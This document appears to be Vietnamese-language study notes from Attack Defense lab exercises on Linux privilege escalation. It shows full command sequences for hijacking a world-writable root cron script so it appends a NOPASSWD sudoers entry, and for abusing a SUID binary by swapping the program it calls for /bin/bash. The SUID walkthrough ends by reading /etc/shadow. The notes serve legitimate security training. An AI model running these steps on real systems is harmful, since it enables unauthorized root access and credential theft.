


# Linux Privilege Escalation

## Linux kernel exploit

Linux-Exploit-Suggester  https://github.com/The-Z-Labs/linux-exploit-suggester

MSF đã có phiên vào 1 máy linux:

`sysinfo`

`getuid` -> trả về www-data -> thường là user cho máy chủ web

`shell` -> vào shell linux

`/bin/bash -i` 

`groups www-data`

... 

## Exploiting Misconfigured Cron Jobs

Linux lập lịch các tác vụ thông qua cron

để leo quyền ta cần nhắm tới các lập lịch bởi root

Môi trường: đã vào được 1 máy linux với quyền tài khoản thấp

`whoami` -> student

`groups student` -> kiểm tra xem trong groups có những tài khoản nào

`cat /etc/passwd`

`crontab -l` -> liệt kê các tác vụ được lên sẵn của người dùng hiện tại 

-> Làm sao liệt kê được các tác vụ của root?

`ls -al`
	-rw------- 1 root root 26 Sep 23  2018 message
`# "message" file has root permissions`

`cat message` -> permission denied -> file này của root tạo, ko có quyền đọc 

**Xác định Cron Jobs** 

Tìm tất cả các lần xuất hiện của đường dẫn hoặc tệp tin đó trên hệ thống.

`find / -name message`
    /home/student/message
	find: '/var/lib/apt/lists/partial': Permission denied
    [...]
    /tmp/message

`grep -rnw /usr -e "/home/student/message"`

	/usr/local/share/copy.sh:2:cp /home/student/message /tmp/message

-> có 1 tập shell là `copy.sh` nằm trong `/usr/local/share` đang có đoạn path này

ta có thể thấy nó copy message ở /home/student qua /tmp 

`cat /tmp/message`

Kiểm tra quyền tệp copy.sh

`ls -al /usr/local/share/copy.sh`
	-rwxrwxrwx 1 root root 74 Sep 23  2018 /usr/local/share/copy.sh

Ta thấy file được tạo bởi root nhưng người dùng bình thường vẫn có quyền thực thi, write, read

=> Sửa tập lệnh để thêm tài khoản hiện tại vào sudoers

xem nội dung file hiện tại:

`cat /usr/local/share/copy.sh`
    #! /bin/bash
    cp /home/student/message /tmp/message
    chmod 644 /tmp/message

=> nội dung hiện tại chỉ copy file rồi thay đổi quyền của /tmp/message

Sửa nội dung để nó ghi vào file sudoers set quyền cao nhất cho student

`printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh`

`cat /usr/local/share/copy.sh`
    #!/bin/bash
    echo "student ALL=NOPASSWD:ALL" >> /etc/sudoers

vì file này theo lab sẽ thực thi mỗi 1 phút nên ta chờ 1 vài phút để file thực thi và sau đó check

`sudo -l`

    User student may run the following commands on attackdefense:
        (root) NOPASSWD: /etc/init.d/cron
        (root) NOPASSWD: ALL

=> ta thấy quyền (root) được set

`sudo su`

`whoami`
	root
    
`cd /root`

`cat flag`

Và khi đã lên root ta có thể check lại được cron job đang hoạt động

`crontab -l`
	*/01 * * * * sh /usr/local/share/copy.sh * 

## Exploiting SUID Binaries

Khai thác các tệp binary có suid được cấu hình sai 

SUID (Set Owner User ID) là 1 permission cho phép thực thi scrip hoặc binary file như file owner

=> Mục tiêu là sẽ tìm các tệp tin có SUID có quyền root

### lab

context: đang có phiên `student` ko có quyền root

`pwd`

`ls -al`

    drwxr-xr-x 1 student student 4096 Sep 22  2018 .
    drwxr-xr-x 1 root    root    4096 Sep 22  2018 ..
    -rw-r--r-- 1 root    root      88 Sep 22  2018 .bashrc
    -r-x------ 1 root    root    8296 Sep 22  2018 greetings
    -rwsr-xr-x 1 root    root    8344 Sep 22  2018 welcome

ta thấy file welcome có `s` ở root thì đây là file suid, được phép thực thi ở quyền root

`./greetings`
	bash: ./greetings: Permission denied
`./welcome`
	Welcome to Attack Defense Labs

`file welcome`
    welcome: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,for GNU/Linux 3.2.0, BuildID[sha1]=199bc8fd6e66e29f770cdc90ece1b95484f34fca, not stripped

`strings welcome`

và ta thấy file `welcome` này lại gọi đến file `greetings` 

Vậy giờ ta sẽ xóa file `greetings` đi và thay bằng 1 file `greetings` khác để execute `/bin/bash`

`rm greetings`

`cp /bin/bash greetings`

`./welcome`

`id`

`cat /etc/shadow`

